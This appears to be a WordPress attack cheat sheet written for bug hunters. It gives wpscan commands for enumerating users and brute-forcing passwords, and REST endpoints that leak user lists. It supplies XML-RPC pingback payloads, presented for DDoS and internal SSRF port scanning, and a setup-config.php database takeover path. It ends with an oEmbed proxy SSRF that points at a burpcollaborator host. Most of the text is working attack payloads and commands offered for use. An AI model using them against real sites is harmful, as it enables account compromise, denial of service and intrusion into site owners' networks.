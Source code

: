 #### TOOLS 
- wpscan
  ````
  wpscan --url https://blog.com --enumerate u   ==> user enumeration
  wpscan  -U users.txt -P password.txt  --url https://blog.com
  ````

#### WP-USER ENUMERATION
This issue will only acceptable when target website is hiding their current users or they are not publically available. So attacker can use those user data for bruteforcing and other staff
````
- wp-json/wp/v2/users/
- wp-json/wp/v2/pages  ===> could leak ip addresses
- ?rest_route=/wp/v2/users
You will see json data with user info in response
````

#### xmlrpc.php
send the post request with the following data
- LIST ALL THE METHODS
````
                <?xml version="1.0" encoding="utf-8"?>
                <methodCall> 
                <methodName>system.listMethods</methodName> 
                <params></params> 
                </methodCall>

````
- Check the pingback.ping method is there or not. Perform DDOS
````
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
````
- Perform SSRF (Internal PORT scan only)
````
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
````
#### CREATE DATABASE
- /wp-admin/setup-config.php?step=1  ===> may give access to create new database if they forgot to configure the database 
 #### Log files exposed
- wp-content/debug.log

#### ssrf through endpoint
- Try to access https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net and the Worpress site may make a request to you.
